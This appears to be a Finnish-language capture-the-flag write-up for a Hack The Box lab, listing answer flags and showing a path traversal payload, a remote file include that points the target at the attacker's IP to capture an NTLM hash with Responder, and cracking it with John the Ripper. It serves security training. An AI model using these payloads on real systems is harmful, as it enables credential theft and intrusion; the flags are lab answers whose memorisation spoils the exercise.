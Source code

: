 ```index.php?``` voidaan päätellä kielen olevan php. 

**Flag: ../../../../../../../../windows/system32/drivers/etc/hosts**

### Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

Vasstaus on ```//10.10.14.6/somefile```, jonka avulla voidaan palvelin ajamaan haluttua tiedostoa. 

**Flag: //10.10.14.6/somefile**

### What does NTLM stand for?

Pienellä googlailulla selviää, että kyseessä on ```New Technology LAN Manager```

**Flag: New Technology LAN Manager**

### Which flag do we use in the Responder utility to specify the network interface?

Löytyy [Kalin dokumentaatiosta](https://www.kali.org/tools/responder/) ```-I```. 

**Flag: -I**

### There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

Aiemmin kurssilla käytetty työkalu, ```John the Ripper```

**Flag: John the Ripper**

### What is the password for the administrator user?

Tämän saamiseksi pitää ensin saada kaivettua Responderin avulla Hash ja murtaa se John the Ripperin avulla. 

Ennen tätä meidän pitää selvittää oma IP, jotta voimme sisällyttää senn RFI hyökkäykseen. 

```ip -A | grep tun```

<img src="https://github.com/user-attachments/assets/75d55c04-78d7-4a71-b95e-3d823ce20290" width="500"> <br/>

Käynnistetään Responder ja hyödynnetään aiemmin mainittua RFI haavoittuvuutta. 

```sudo responder -I tun0```

Tämän jälkeen selaimella yritetään tehdä RFI hyökkäystä. 

```http://unika.htb/?page=//10.10.16.4/somefile```

Muutaman yrityksen jälkeen responder oli napannut talteen Hashin. 

<img src="https://github.com/user-attachments/assets/e4d97cad-abb6-4578-9da3-fa51fb8dbc93" width="500"> <br/>

Tallenetaan tämä napattu hash ```hash.txt``` tiedostoon nanon avulla. 

```nano hash.txt```

Tämän jälkeen voidaan yrittää murtaa salasana John the Ripperillä. 

```john -w=rockyou.txt hash.txt```

```